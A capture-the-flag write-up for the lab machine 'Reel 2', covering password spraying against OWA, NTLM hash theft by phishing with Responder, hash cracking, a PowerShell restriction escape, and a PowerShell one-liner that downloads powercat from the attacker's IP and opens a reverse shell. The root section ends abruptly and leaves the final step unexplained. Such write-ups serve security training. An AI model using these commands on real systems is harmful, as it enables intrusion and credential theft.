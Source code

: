 # REEL 2

## Enumeration

port 443 is accesible
```
/public
```

on port 8080
```
sven - summer is too hot this year 2020
username: svensson

```

Valid username
```
S.svensson
which have summer in its password
```
try to login to https://ip/owa/auth

```
S.svensson: Summer2020
```

After login we see there are 10-12 emails in the address book.
Let's go to fishing.
select all and send a email..

phishing will be done with NTLM hash stealing with responder
https://www.securify.nl/blog/living-off-the-land-stealing-netntlm-hashes

Download Responder and send your ip address to the users.

**bug: the user is nowhere: use k.svensson to send the email with your ip**

crack the hash with hashcat
```bash
hashcat -m 5600 hash wordlist

```

```creds
k.svensson: kittycat1
```

**Evil-winrm will not work**

Run powershell in kali and enter following commands

```bash
sudo apt-get install powershell
sudo apt-get install gss-ntlmssp

pwsh
$session = New-PSSession -Computer 10.10.10.210  -Authentication Negotiate -Credential k.svensson 

Enter-PSSession $session

```


### Escaping powershell

> Get-Command ( it list all the available commands )
> so we are going to define a function whose name will be on of the available commands.


```bash
function Get-Help { whoami }   # defining the function

Get-Help 	# calling it 
```

Getting reverse shell

```bash
function Get-Help { powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.107:8000/powercat.ps1');powercat -c 10.10.14.107 -p 1234 -e cmd" }
```






## Root

in the \Users\Documents there is a sticky notes link it means there is some sticky notes on the desktop.

checking the 
C:\Users\k.svensson\AppData\Roaming\stickynotes\000003.log



```
jea_test_account: Ab!Q@vcg^%@#1
```

to login we need to convert this password into secure string and then pass to New-pssesion
https://duffney.io/addcredentialstopowershellfunctions/

```
$password = ConvertTo-SecureString "Ab!Q@vcg^%@#1" -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential ("jea_test_account", $password)

Enter-PSSession -Computer 10.10.10.210 -Credential $Cred -ConfigurationName jea_test_account -Authentication Negotiate
```
### just enough administration
Now in the documents there were two files .. reading those 
there is function of check-file which is available to jea_test_account after login ( Get-Commands)

In file jea_test_account.psrc
```bash
FunctionDefinitions = @{
    'Name' = 'Check-File'
    'ScriptBlock' = {param($Path,$ComputerName=$env:COMPUTERNAME) [bool]$Check=$Path -like "D:\*" -or $Path -like "C:\ProgramData\*" ; if($check) {get-content $Path}} }
```

Thas it Rooted